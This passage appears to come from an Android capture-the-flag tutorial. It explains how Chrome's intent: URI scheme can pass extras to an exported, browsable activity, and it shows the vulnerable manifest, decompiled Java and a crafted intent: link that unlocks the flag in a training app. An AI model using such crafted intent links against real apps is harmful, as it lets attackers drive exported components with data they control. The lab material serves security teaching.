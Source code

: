 > **What's the security problem?**
>
> This chrome feature increases the threat surface massively of any app because you can also add **extras value**!

### Example

Let's say that the app `io.hextree.attacksurface` has the following activity:

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag15Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
    </intent-filter>
</activity>
```

```java
public class Flag15Activity extends AppCompactActivity {
    public Flag15Activity() {...}

    private boolean isDeeplink(Intent intent) {...}

    @Override
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        Intent intent = getIntent();
        if (intent == null) {return;}
        String action = intent.getAction();
        if (action == null) {
            Intent intent2 = new Intent("android.intent.action.VIEW");
            intent2.setData(Uri.parse("https://ht-api-mocks-lcfc4kr5oa-uc.a.run.app/android-link-builder?href=" + Uri.encode("intent:#Intent;...")));
            startActivity(intent2);
            return;
        }
        if (isDeeplink(intent) && action.equals("io.hextree.action.GIVE_FLAG")) {
            Bundle extras = intent.getExtras();
            if (extras == null) {finish();}
            String string = extras.getString("action", "open");
            if (extras.getBoolean("flag", false) && string.equals("flag")) {
                success(this);
            } else if (string.equals("open")) {
                Toast.makeText(this, "Website: " + extras.getString("message", "open"), 1).show();
            }
        }
    }
}
```

To get the flag you can create a link like the follows:

```
intent:#Intent;action=io.hextree.action.GIVE_FLAG;package=io.hextree.attacksurface;component=io.hextree.attacksurface/io.hextree.attacksurface.activities.Flag15Activity;S.action=flag;B.flag=true;end
```